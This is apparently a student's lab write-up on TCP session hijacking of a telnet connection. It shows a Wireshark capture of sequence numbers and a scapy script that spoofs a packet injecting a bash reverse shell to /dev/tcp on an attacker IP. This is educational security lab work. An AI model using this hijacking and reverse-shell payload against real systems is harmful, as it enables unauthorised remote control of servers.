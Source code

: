 **Note**: After a successful attack, the user terminal freezes in the session.

## Task 5

Similar to [Task 4](#task-4), except that the payload should be

```
\r /bin/bash -i > dev/tcp/10.0.2.15/9090 2>&1 0<&1 \r
```
to create a reversed shell from the server to the attacker.

So repeat the steps in previously task, to simplify, I just demonstrate with `scapy`:

As above, capture the last `telnet` packet from the user to the server using Wireshark:

> Transmission Control Protocol, Src Port: 57654, Dst Port: 23, Seq: 1265743785, Ack: 4268626928, Len: 2
>     **Source Port: 57654**
>     Destination Port: 23
>     [Stream index: 12]
>     [TCP Segment Len: 2]
>     Sequence number: 1265743785
>     **[Next sequence number: 1265743787]**
>     **Acknowledgment number: 4268626928**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 229
>     [Calculated window size: 29312]
>     [Window size scaling factor: 128]
>     Checksum: 0x965f [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]



Use Python script to spoof the packet:


```python
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
IPLayer = IP(src="10.0.2.5", dst="10.9.0.5")
TCPLayer = TCP(sport=57654, dport=23, flags="A",
               seq=1265743787, ack=4268626928)
Data = "\r /bin/bash -i > /dev/tcp/10.0.2.15/9090 2>&1 0<&1 \r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt,verbose=0)
```

Finally, the reverse shell is created successfully:

![Reverse shell controls the server machine](./rev_shell.png)